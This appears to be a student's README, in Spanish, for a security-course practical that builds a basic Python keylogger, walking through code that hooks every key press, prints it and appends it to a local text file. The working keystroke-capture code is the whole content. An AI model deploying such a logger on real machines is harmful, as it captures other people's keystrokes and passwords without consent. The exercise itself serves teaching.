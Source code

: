# SI_T5_P1

## Práctica keylogger

Lo primero que hay que hacer es poner el siguiente comando para importar la librería.

 ```python
import keyboard
 ```

Ahora hay que crear una función que te registre y te imprima las teclas.

1. Creo la función llamada "registrar_pulsaciones" con el parámetro "event"
2. A continuación, creo la variable tecla que me guarde en una cadena las teclas que vaya pulsando con el "event.name"
3. Y por último hago que se imrpima las teclas que pulso con "print"

 ```python
def registrar_pulsaciones(event):
    tecla = str(event.name)
    print(tecla)
 ```
    
Debajo de la función creo un if para que me sustituya la palabra 'space' por un espacio.

 ```python
if tecla == "space":
        tecla = " "
 ```

Una vez que ya nos está registrando las pulsacines tenemos que pasarlo a un txt para que se guarde.

 ```python
with open("registro.txt", 'a') as log_file:
        log_file.write(tecla)
 ```

Por último llamo a la función para que se ejecute y le digo que se mentenga funcionando el proceso con el "keyboard.wait()"

 ```python
keyboard.on_press(registrar_pulsaciones) 
keyboard.wait()
 ```

## Áreas de mejora
Una de las cosas que se podía mejorar en mi keylogger sería que al pulsar la tecla enter no se imprima "enter" sino que baje directamente a la columna de abajo.